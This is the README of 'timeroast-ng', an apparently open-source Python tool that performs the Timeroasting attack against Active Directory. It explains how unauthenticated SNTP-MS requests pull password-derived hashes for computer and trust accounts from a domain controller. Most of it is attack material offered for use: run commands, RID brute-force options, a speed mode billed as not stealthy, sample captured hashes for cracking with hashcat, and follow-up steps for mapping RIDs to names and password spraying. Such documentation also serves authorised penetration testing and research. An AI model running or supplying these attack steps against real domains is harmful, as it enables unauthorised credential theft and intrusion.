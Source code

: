 # Timeroast-ng

Timeroasting ([Paper - Timeroasting, Trustroasting and Computer Spraying](https://www.secura.com/uploads/whitepapers/Secura-WP-Timeroasting-v3.pdf) by SecuraBV;
their [Repo - Timeroasting](https://github.com/SecuraBV/Timeroast)) is a simple attack
technnique that leverages the design concept of Microsoft's authentication extension
for the Simple Network Time Protocol ([SNTP-MS](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sntp/)).

![example-output](/assets/example.png)

This technique involves sending specially crafted NTP packets to the domain controller
of an Active Directory in order to retrieve a checksum that was calculated using the
password of the targeted **computer** account. Since a server will only reply to requests
made from computer accounts, it is possible to retrieve password hashes for all computer
accounts in a domain. The resulting list of hashes can be cracked with hashcat using mode
`31300`.

## Installation

The main tool works out of the box with no dependencies. You can simply clone the repository -
optional dependencies are [impacket](https://github.com/fortra/impacket) (for `resolveRID.py`)
and [rich](https://github.com/Textualize/rich) to add colored output support.

Manual setup
```bash
git clone https://github.com/MatrixEditor/timeroast-ng
cd timeroast-ng
python3 timeroast-ng.py -r1000-2000 -T5 <dc_ip>
```

Installation via `pip`:
```bash
pip install git+https://github.com/MatrixEditor/timeroast-ng
```

## Background

What the hell is [SNTP-MS](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sntp/)?
First of all, the Network Time Protocol (NTP) allows to place an optional authenticator payload,
storing a key identifier and an arbitrary digest value. The basic message flow can
be broken down to the following:

```
+------------+      NTP Packet (UDP, 123)
| Client NTP +------------------------------+
|  Request   | (1)                          |
+------------+                     +--------v---------+
                                   | Server processes |
                                   |  Client request  |
                                   +--------+---------+
                                            |
                                            |
                                   RID linked to Computer: Yes
                                            | (2)
                                   +--------v----------+
+-----------------+                | Server calculates |
| Client verifies | (3)            |  checksum using   |
|  NTP-Response   <----------------+ computer password |
+-----------------+    NTP-Reply   +-------------------+
```

1. The client prepares an NTP packet with the custom _Authenticator_ extension that stores
   the relative identifier (RID) of the requestor (computer account).
2. Server receives the request: packets of length `68` (_Authenticator_) and `120`
   (_ExtendedAuthenticator_) will be processed. Only if the given RID in the request packet
   is linked to a computer account, the server will generate a response. The reply will
   contain a checksum that was generated using the password of the target account. Algorithm:
   ```python
   MD5(MD4(password.encode("utf16-le") + response_message[:48]))
   ```
   All other NTP-related fields will be filled out normally as defined by NTP.
3. Normally, the client would verify the response by using its own password. Since we are only
   interested in capturing the hash (and salt), the flow ends here.

Q: **So, why is this useful?**

With this approach, any unauthenticated attacker could enumerate the RIDs of all computer accounts
within the domain and can try to crack their passwords. Moreover, since _Trust-Accounts_ are
computer accounts, they will be in the resulting list too.

Q: **There's an option to let the server calculate the checksum using the old password. Why can't we**
**leverage this behaviour to distinguish whether the password has changed recently on the target**
**computer account?**

Simply because we can't control the response message data. As the reply contains timestamps that we
can't predict, there is no gain in using this feature.

---

Generally speaking, _Timeroasting_ can be used to **anonymously** get the RIDs of all computer
accounts and trust accounts together with their password hashes. However, there is a huge downside:
we can't map the RID to a valid username. Currently, there is no option to anonymously map the
gathered identifiers with their correct username. Approaches could be

- Try to resolve the hostname of each Windows computer in the local network (e.g. using [NetExec](https://github.com/Pennyw0rth/NetExec))
    ```console
    $ nxc smb <cidr> --generate-hosts-file <outputfile>
    ```
- Generate a list of valid computer names and try password spraying (in case you cracked it).

Another way to resolve the computer name is by querying the domain controller using an authenticated
user. First of all, we need the domain's SID (e.g. with [lookupsid.py](https://github.com/fortra/impacket/blob/master/examples/lookupsid.py)
by impacket) - which is everything that is needed. The final LDAP query we have to execute looks
like this:
```
(&(objectSid=<Domain-SID>-<RID>))
```

To automate these queries one can use [resolveRID](resolveRID.py) to resolve the RID to an existing
computer account.


## Usage

The main script _timeroast-ng.py_ is designed for two modes of operation, both times supporting only the basic _Authenticator_ extension.

```txt
usage: timeroast-ng.py [options] dc_ip

Implementation of the Timeroasting attack to grab hashes from computer accounts using SNTP-MS.

options:
  -h, --help           show this help message and exit
  -no-color            disables colorized output (enabled by default if rich is not installed)
  -l, --listener ADDR  Local address to listen on

Target Options:
  dc_ip                Target Domain Controller IP address or host.
  -rt RID_FILE         Path to a file containing relative identifiers (RIDs) to target (TargetedTimeroast).
                       Each line will be interpreted as a RID range.
  -r, -range RANGES    Set the RID brute force range(s). Format is [start][-][end][, ...], whereby one
                       element must be present. For instance, '1-10' would be valid and '-10' or '10-' too.
                       You can use '-' to try ALL available RIDs (0 to (1 << 31) - 1). If start is not
                       specified it will be set to zero and end will be UINT32_MAX - 1.

Collection Options:
  -use-oldkey          Queries for the old password upon receiving a valid responce from the target server.
  -only-oldkey         Only queries for the old password of the machine account
  -skip-duplicate      Collects only new hashes. (Only together with -append and -outfile) This will work
                       only if the RID has been written to the hashes file.

Timing options:
  -non-blocking        Executes in non-blocking mode
  -wait SECONDS        Waits X seconds (float) after sending all requests (non-blocking mode only). Default
                       delay is 0.5s.
  -T <0-5>             Set timing template (higher is faster). Default template is T3.
  -timeout TIMEOUT     Timeout for local socket (blocking-mode) / refesh interval (non-blocking mode) in
                       seconds (default=0.01)

Output Options:
  -outfile OUTFILE     Stores the captured hashes into the given file. (use -append to add data to an
                       existing file)
  -append              Does not overwrite existing captured hashes
  -no-userid           Remove RID from output hash (otherwise --username must be used with hashcat)
```

## Non-Blocking Mode

This mode is recommended for users who don't have time to waste and don't need to be stealthy. For instance:
```console
$ python3 timeroast-ng.py <dc_ip> -r1000-2000 -T5 -non-blocking
```
will start an attack in non-blocking mode (means _faster_) on RIDs starting from `1000` to `2000`
(exclusive). The result could be something like this:
```
$ timeroast-ng.py 192.168.56.11 -r1000-1200 -T5 -non-blocking
[*] User RID will be added to the output hash - make sure to use --username with hashcat to crack them!
[*] Starting Timeroasting attack against: 192.168.56.11
1001:$sntp-ms$b644b0e1f8723f518c7d131c238b2ab9$1c020ae900000074000a5450c0a8380aeb814a1f1e19b0ab0000000000000000eb814d8c4a21c39feb814d8c4a21f446
1105:$sntp-ms$09737ab1e7c86ceaa9f9042c84d45560$1c020ae900000074000a5450c0a8380aeb814a1f1f2c1be70000000000000000eb814d8c4b3444abeb814d8c4b3453c4
1104:$sntp-ms$3c3ac1f9eabf9bc6e83a1682cb54f8ba$1c020ae900000074000a5450c0a8380aeb814a1f1f2961f90000000000000000eb814d8c4b318259eb814d8c4b3199d5
1123:$sntp-ms$ec534d53bef0508ed3febc99bb66f94a$1c020ae900000074000a5450c0a8380aeb814a1f1f6feea50000000000000000eb814d8c4b781916eb814d8c4b782327
1122:$sntp-ms$93dec08a525fd1df36ef9e204c13e255$1c020ae900000074000a5450c0a8380aeb814a1f1f6c1fe30000000000000000eb814d8c4b744a54eb814d8c4b7457c0
```

Some notes on this mode of operation:
- Receiving messages is done in a separate thread, therefore sending all request may complete before
  the server has been able to respond to valid packets. If your output contains less responces than
  expected, try to increase the `-wait` value.
- Since this mode will utilize the whole bandwith of the network, the server may not be able to respond
  directly to the first message received. Therefore, the waiting time at the end should be increased the
  lower the specified range is.
- **this mode is fast**
- **It is recommended to always use `-T5` with this mode as it will give the best results**

## Blocking-IO Mode

This is the default implementation using plain Pyton sockets (yes, a very primitive approach)
that will block until a timeout occurs or a packet was received.
```console
$ python3 timeroast-ng.py <dc_ip> -r1000-1200 -T5
```

## Range Specification

Timeroast-ng supports multiple range definitions thaz follow a broader pattern: `[start][-][end][, ...]`.
The following list contains valid examples:
```bash
-r-                         # MIN to MAX (exclusive)
-r-100                      # MIN to 100 (exclusive)
-r100-                      # 100 to MAX (exclusive)
-r 1001                     # only 1001
-r 1000-2000                # 1000 to 2000 (exclusive)
-range 10,20,100-200        # 10, 20 and from 100 to 200 (exclusive)
```

You can also write a file that contains range specifications in each line (use `-rt <file>`).

## License

Distributed under the MIT License. See LICENSE for more information.